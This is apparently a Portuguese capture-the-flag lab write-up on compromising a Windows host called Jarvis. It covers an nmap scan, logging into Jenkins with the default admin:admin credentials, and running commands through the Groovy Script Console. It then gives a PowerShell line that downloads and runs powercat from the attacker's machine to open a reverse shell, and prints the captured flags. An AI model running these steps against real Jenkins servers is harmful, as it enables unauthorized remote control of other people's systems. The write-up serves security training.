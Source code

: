 EHPT - Jarvis

# EHPT - Jarvis

## Enumeração

### Scan inicial

- Executado enumeração inicial com nmap e obtido o seguinte resultado

  ```
  # Nmap 7.80 scan initiated Sat Jun 20 00:33:04 2020 as: nmap -A -p21,80,135,139,445,7592,7680,49664,49665,49666,49667,49668,49669,49673 -Pn -oA full 10.0.0.10
  Nmap scan report for 10.0.0.10
  Host is up (0.00061s latency).
  
  PORT      STATE SERVICE       VERSION
  21/tcp    open  ftp           FileZilla ftpd
  | ftp-syst: 
  |_  SYST: UNIX emulated by FileZilla
  80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  |_http-server-header: Microsoft-HTTPAPI/2.0
  |_http-title: Not Found
  135/tcp   open  msrpc         Microsoft Windows RPC
  139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
  445/tcp   open  microsoft-ds?
  7592/tcp  open  http          Jetty 9.4.z-SNAPSHOT
  |_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
  | http-robots.txt: 1 disallowed entry 
  |_/
  |_http-server-header: Jetty(9.4.z-SNAPSHOT)
  |_http-title: Site doesn't have a title (text/html;charset=utf-8).
  7680/tcp  open  pando-pub?
  49664/tcp open  msrpc         Microsoft Windows RPC
  49665/tcp open  msrpc         Microsoft Windows RPC
  49666/tcp open  msrpc         Microsoft Windows RPC
  49667/tcp open  msrpc         Microsoft Windows RPC
  49668/tcp open  msrpc         Microsoft Windows RPC
  49669/tcp open  msrpc         Microsoft Windows RPC
  49673/tcp open  msrpc         Microsoft Windows RPC
  Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
  
  Host script results:
  |_clock-skew: 1s
  | nbstat: NetBIOS name: WIN10X64, NetBIOS user: <unknown>, NetBIOS MAC: 00:15:5d:2a:16:30 (Microsoft)
  | Names:
  |   WIN10X64<00>         Flags: <unique><active>
  |   WORKGROUP<00>        Flags: <group><active>
  |_  WIN10X64<20>         Flags: <unique><active>
  | smb2-security-mode: 
  |   2.02: 
  |_    Message signing enabled but not required
  | smb2-time: 
  |   date: 2020-06-20T03:34:00
  |_  start_date: 2020-06-20T01:29:47
  
  Read data files from: /usr/bin/../share/nmap
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  # Nmap done at Sat Jun 20 00:34:03 2020 -- 1 IP address (1 host up) scanned in 59.16 seconds
  ```

### 80/TCP - HTTP

- Ao acessar a pagina via navegador, recebido erro 404. Inspecionando o cabeçalho da resposta nao encontrado muitas informações relevantes além do servidor **Microsoft-HTTPAPI/2.0**

### 7592/TCP - Jetty(9.4.z-Snapshot)

- Ao acessar a pagina do navegador identificado que se tratava de uma instalação do Jenkins. Ao tentar acesso usando credenciais padrão as credenciais **admin:admin** funcionaram e foi possível obter acesso à console.

- Pesquisando um pouco sobre o Jenkins, que é uma ferramenta de automação, encontrado dentro de `Manage Jenkins` uma Script Console onde poderia executar alguns comandos.

- pesquisando um pouco sobre como executar comandos nesat ferramenta, que utiliza uma linguagem chamada `Groovy script` obitido o snippet abaixo que me permitiu executar alguns comandos para testar execução de código remota na maquina

  ```groovy
  def cmd = "cmd /c whoami".execute()
  println("${cmd.text}")
  ```

- Ao executar o comando, retornado o resultado abaixo, o que nos dá permissão de SYSTEM na máquina :)

  ![image-20200620005925502](C:\Temp\EHPT\.assets\image-20200620005925502.png)

## Exploração

## Shell reverso

- Uma vez que obtemos execução remota na maquina, a ideia é obter um shell reverso. 

- Com a execução obtida, realizada uma enumeração rapida para definir qual o payload para obter o shell reverso

  ```groovy
  def cmd = "powershell Get-WmiObject -Class Win32_OperatingSystem | Select Name,caption,Version,OsArchitecture | fl ".execute()
  println("${cmd.text}")
  ```

  ```
  Name           : Microsoft Windows 10 
                   Pro|C:\Windows|\Device\Harddisk0\Partition4
  caption        : Microsoft Windows 10 Pro
  Version        : 10.0.10586
  OsArchitecture : 64-bit
  ```

- A melhor maneira de se obter um shell reverso utilizando powershell é utilizando o powercat. Realizado o clone do projeto na maquina, publicado o arquivo via http e executado o comando abaixo via jenkins

  ```powershell
  def cmd = "powershell -c IEX(New-Object System.Net.WebClient).DownloadString('http://10.0.0.3/powercat.ps1');powercat -c 10.0.0.3 -p 4443 -e cmd".execute()
  println("${cmd.text}")
  ```

- Após obter o shell reverso, obtido a flag de Root conforme o caminho abaixo

  ```
  C:\Users\Administrator\Desktop>type admin.txt
  type admin.txt
  1bc690f34128cdaa2d03d6867e22feba
  ```

- Uma vez que se tem privilégios de SYSTEM no Windows, navegado tambem até a flag de user conforme abaixo

  ```
  C:\Users\pepper\Desktop>type user.txt
  type user.txt
  d83031634026e222b92a073869c5e65d
  ```